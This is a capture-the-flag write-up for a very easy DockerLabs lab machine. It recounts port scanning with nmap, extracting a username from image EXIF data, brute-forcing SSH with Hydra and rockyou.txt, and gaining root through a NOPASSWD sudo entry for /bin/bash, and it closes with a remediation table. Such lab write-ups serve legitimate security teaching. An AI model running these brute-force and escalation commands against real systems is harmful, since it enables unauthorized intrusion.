






# BorazuwarahCTF — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Very Easy | **Target IP:** 172.17.0.2 | **Attacker IP:** 172.17.0.1

## Machine info



## Summary

**BorazuwarahCTF** is a Very Easy DockerLabs machine that hides its foothold in image metadata rather than in the page itself. The web root serves a static image with nothing to brute-force; EXIF metadata embedded in that image discloses a valid username, which was cracked over SSH via dictionary attack. The resulting account has direct passwordless sudo on `/bin/bash`, leading straight to root.

**Attack chain:** Reconnaissance → Web Root (Static Image) → EXIF Metadata Leak (Username) → SSH Brute Force → Sudo Misconfiguration (`/bin/bash`, NOPASSWD) → Root

## 1. Reconnaissance

Confirmed connectivity to the target:



Full port scan with `nmap`:

```
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.2

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Site doesn't have a title (text/html).
```

Only SSH and a title-less Apache instance are exposed, same pattern as before.

## 2. Web Root

The web root serves a single static image — a "Kinder Sorpresa" graphic — with no other content:



The image was pulled down for steganography and metadata analysis.

## 3. Steganography & Metadata Analysis

`exiftool` showed the data was hidden in the file's metadata, not the pixels:



The `Description` field discloses a valid username: `borazuwarah`. The `Title` field, labeled "Password", was empty.

## 4. SSH Brute Force

With a valid username, Hydra was used against SSH with the `rockyou.txt` wordlist:

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
```

Valid credentials: **borazuwarah:123456**

## 5. Privilege Escalation

Logged in over SSH:



Checking sudo permissions revealed both full sudo access and a passwordless entry for `/bin/bash`:

```
sudo -l

User borazuwarah may run the following commands on d39c3b05ae3b:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```

```
sudo /bin/bash
```



Root access confirmed.

## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Username disclosed in EXIF metadata of an image served on the public web root | Strip metadata (EXIF/XMP) from any image before publishing it |
| Weak SSH password (`borazuwarah:123456`) vulnerable to dictionary attack | Enforce a strong password policy; prefer key-based SSH authentication |
| Passwordless sudo on `/bin/bash`, plus unrestricted `(ALL:ALL) ALL` sudo access | Remove NOPASSWD entries and avoid granting blanket `ALL` sudo rights to non-admin accounts |
